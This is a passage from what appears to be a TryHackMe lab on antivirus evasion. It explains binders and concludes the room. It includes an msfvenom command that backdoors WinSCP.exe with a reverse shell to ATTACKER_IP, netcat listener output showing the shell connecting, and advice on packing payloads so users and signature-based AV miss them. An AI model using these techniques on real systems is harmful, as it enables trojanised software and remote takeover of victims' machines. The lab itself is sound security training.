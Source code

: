 AttackBox

```shell-session
C:\> msfvenom -x WinSCP.exe -k -p windows/shell_reverse_tcp lhost=ATTACKER_IP lport=7779 -f exe -o WinSCP-evil.exe
```

The resulting WinSCP-evil.exe will execute a reverse_tcp meterpreter payload without the user noticing it. Before anything else, remember to set up an `nc` listener to receive the reverse shell. When you execute your backdoored executable, it should launch a reverse shell back at you while continuing to execute WinSCP.exe for the user:

|                                                                                                                                                        |     |                                                                                                                                                                                                                                                                       |
| ------------------------------------------------------------------------------------------------------------------------------------------------------ | --- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| ![winscp execution](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/06c3bd06d935a937b2af7dace6a41a27.png) | ➜   | AttackBox<br><br><br>user@attackbox$ nc -lvp 7779      <br>Listening on 0.0.0.0 7779<br>Connection received on 10.10.183.127 49813<br>Microsoft Windows [Version 10.0.17763.1821]<br>(c) 2018 Microsoft Corporation. All rights reserved.<br><br>C:\Windows\system32> |

###  Binders and Av

Binders won't do much to hide your payload from an AV solution. The simple fact of joining two executables without any changes means that the resulting executable will still trigger any signature that the original payload did.

The main use of binders is to fool users into believing they are executing a legitimate executable rather than a malicious payload.

When creating a real payload, you may want to use encoders, crypters, or packers to hide your shellcode from signature-based AVs and then bind it into a known executable so that the user doesn't know what is being executed.

Feel free to try and upload your bound executable to the THM Antivirus Check website (link available on your desktop) without any packing, and you should get a detection back from the server, so this method won't be of much help when trying to get the flag from the server by itself.

# Conclusion

---

In this room, we have explored some strategies available to an attacker to circumvent AV engines that rely on disk-based detection only. While this is just one of the mechanisms available to any modern AV engine, we should be able to at least deliver our payloads to our victim's disk as a first step. Bypassing in-memory detection and other advanced detection mechanisms are left for a future room. You may want to check the [Runtime Detection Evasion](https://tryhackme.com/room/runtimedetectionevasion) for more information on bypassing further Windows security mechanisms that may prevent your payloads from triggering.

Remember that the success of any encrypter, encoder or packer, will largely depend on AV engines not knowing any signatures for them. Therefore, being able to customize your own payloads is critical when trying to bypass any real-world solution.



# Practical Challenge TASK 2

---
